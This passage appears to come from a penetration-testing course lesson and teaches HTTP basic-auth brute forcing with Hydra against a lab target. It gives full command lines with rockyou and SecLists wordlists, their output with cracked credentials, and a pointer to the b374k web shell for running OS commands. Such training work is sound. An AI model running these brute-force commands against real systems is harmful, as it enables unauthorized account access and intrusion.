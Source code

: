```shell-session
root@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

[DATA] max 16 tasks per 1 server, overall 16 tasks, 243854766 login tries (l:17/p:14344398), ~15240923 tries per task
[DATA] attacking http-get://178.35.49.134:32901/
[STATUS] 9105.00 tries/min, 9105 tries in 00:01h, 243845661 to do in 446:22h, 16 active

<...SNIP...>
[32901][http-get] host: 178.35.49.134   login: thomas   password: thomas1

[STATUS] attack finished for SERVER_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

We see that we can still find the same working pair, but in this case, it took much longer to find them, taking nearly 30 minutes to do so. This is because while default passwords are commonly used together, they clearly are not among the top when it comes to individual wordlists. So, either the username or the password is buried deep into our wordlist, taking much longer to reach.

***

### Username Brute Force

If we were to only brute force the username or password, we could assign a static username or password with the same flag but lowercase. For example, we can brute force passwords for the `test` user by adding `-l test`, and then adding a password word list with `-P rockyou.txt`.

Since we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
root@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking http-get://178.35.49.134:32901/

[32901][http-get] host: 178.35.49.134   login: abbas   password: amormio
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```



## Hydra Modules

***

Since we found a login form on the webserver for administrators during our penetration testing engagement, it is a very interesting component to which we should try to gain access without generating much network traffic. Finally, with the admin panels, we can manage servers, their services, and configurations. Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly.
